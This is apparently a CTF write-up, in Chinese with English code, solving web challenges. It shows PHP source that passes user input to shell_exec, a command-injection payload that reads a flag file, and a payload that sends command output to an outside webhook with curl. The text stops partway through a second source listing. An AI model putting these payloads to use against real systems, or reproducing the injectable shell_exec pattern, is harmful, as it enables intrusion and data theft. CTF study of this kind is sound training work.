 ## Web Level 2
### vtim_cmdi
> http://140.110.112.78:31339/

* 這題是 command injection
* 如果給的 ip 是 0.0.0.0 或是 127.0.0.1 會 timeout 
* 這題的 source code 
    ```php=
    <html>
    <body>
    <h1>HTTP Header Reader v0.008</h1>
    <form action="index.php" method="POST">
        <input type="text" size="50" name="url" placeholder="URL">
        <input type="submit" value="submit">
    </from>
    <?php
    $url = str_replace(";", "\;", $_POST['url']);
    $output = shell_exec("curl -I -X GET ".$url);
    if($output != ""){
        echo "<h3>Here's your header :</h3>";
        $array = explode("\n",$output);
        echo "<pre>";
        foreach($array as $str) {
           echo $str;
           echo "<br>";
        }
        echo "</pre>";
    }

    ?>
    </body>
    </html>
    ```
* 只有擋 ; 而已，所以用 && | || 之類的都可以
* payload : `https://www.google.com | cat ../../../flag/Flag/flag`
* flag : `BreakALLCTF{43sy_c0mM4nD_1nj3ctI0N_F0r_fuN}`

### Local File Inclusion
> http://140.110.112.78:2003/

### Baby CMDi
> http://140.110.112.78:30005

* 這一題是 command injection，基本上把該擋的都擋了，除了 `$()`
* 想法是用 webhook 拿到執行 command 的結果
* payload : `curl webhook -d "$(your_command)"`
    * 用雙引號刮起來可以拿到所有的 data，否則只能拿到第一個
* `ls` 之後可以發現有一個 file 是 flag
* source code 
    ```php=
    <html>
    <body>
    <h2>Baby CMDi</h2>
